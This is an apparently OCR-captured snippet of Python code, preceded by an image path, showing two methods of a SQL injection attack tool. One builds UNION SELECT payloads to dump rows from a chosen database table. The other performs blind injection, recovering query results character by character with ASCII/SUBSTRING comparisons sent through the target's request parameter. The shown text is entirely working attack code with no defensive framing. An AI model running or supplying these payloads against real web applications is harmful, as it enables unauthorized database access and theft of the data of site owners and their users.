 ```python
    def extract_table_data(self, table_name, columns, limit=10):
        """Extract data from a specific table"""
        print(f"\n[+] Extracting data from table: {table_name}")
        
        # Construct column list (limit to first few columns to avoid errors)
        column_list = ','.join(columns[:4]) if len(columns) > 4 else ','.join(columns)
        
        # Add padding columns if needed
        while column_list.count(',') < 3:
            column_list += ",1"
        
        data_payload = f"test' UNION SELECT {column_list} FROM {table_name} LIMIT {limit}--"
        
        try:
            response = self.session.get(
                f"{self.base_url}{self.endpoint}",
                params={self.parameter: data_payload}
            )
            
            if response.status_code == 200:
                print(f"  ✓ Data extracted from {table_name}")
                return response.json() if response.headers.get('content-type', '').startswith('application/json') else response.text
                
        except Exception as e:
            print(f"  ✗ Error extracting data from {table_name}: {e}")
        
        return None
    
    def blind_data_extraction(self, query, max_length=100):
        """Extract data using blind SQL injection techniques"""
        print(f"\n[+] Blind extraction: {query}")
        
        result = ""
        
        for position in range(1, max_length + 1):
            found_char = False
            
            # Test printable ASCII characters (32-126)
            for char_code in range(32, 127):
                test_payload = f"test' AND ASCII(SUBSTRING(({query}),{position},1))={char_code}--"
                
                try:
                    response = self.session.get(
                        f"{self.base_url}{self.endpoint}",
                        params={self.parameter: test_payload}
                    )
                    
                    # Check if condition is true (application-specific logic)
                    if response.status_code == 200 and len(response.text) > 100:  # Adjust based on app behavior
                        result += chr(char_code)
                        print(f"  Position {position}: {chr(char_code)} (Result: {result})")
                        found_char = True
                        break
                        
                except Exception as e:
                    continue
            
            if not found_char:
                break
        
        return result
```